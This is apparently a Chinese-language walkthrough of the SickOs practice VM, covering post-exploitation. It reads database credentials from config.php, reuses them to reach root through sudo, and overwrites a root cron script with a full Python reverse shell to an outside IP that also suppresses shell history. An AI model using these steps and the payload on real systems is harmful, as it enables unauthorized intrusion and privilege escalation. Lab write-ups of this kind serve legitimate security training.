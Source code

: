 python -c 'import pty; pty.spawn("/bin/bash")'
********************************************************

8、内网信息枚举

尝试后拿到了反弹shell开启内网信息枚举！

find / -name config* 2>/dev/null
cat /var/www/wolfcms/config.php
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');

1）发现数据库账号密码：
root
john@123

mysql -uroot -pjohn@123
未发现有用的信息！

2）发现新用户
cat /etc/passwd
sickos
su sickos
john@123    ---尝试枚举mysql枚举的密码登录成功！

sudo -l
User sickos may run the following commands on this host:
    (ALL : ALL) ALL

sudo su   ---获得root权限！


3）枚举存在connect.py
cd /etc    ---cron一般在该目录下
grep -rn connect.py /etc/cron*
/etc/cron.d/automate:2:* * * * * root /usr/bin/python /var/www/connect.py
每分钟执行一次！

root@SickOs:/etc/cron.d# ls -la /var/www/connect.py
-rwxrwxrwx 1 root root 109 Dec  5  2015 /var/www/connect.py
发现这是root权限运行，可以写入！
----
回顾项目四*****：
nc -tvlp 9977

nano进行编辑：
#!/usr/bin/python
def con():
	import socket, time,pty, os
	host='10.211.55.19'
	port=9966
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.settimeout(10)
	s.connect((host,port))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	os.putenv("HISTFILE",'/dev/null')
	pty.spawn("/bin/bash")
	s.close()
con()
----
或者：os.system('cp /bin/bash /tmp/dayu1') 
或者创建root权限的账号密码都行！
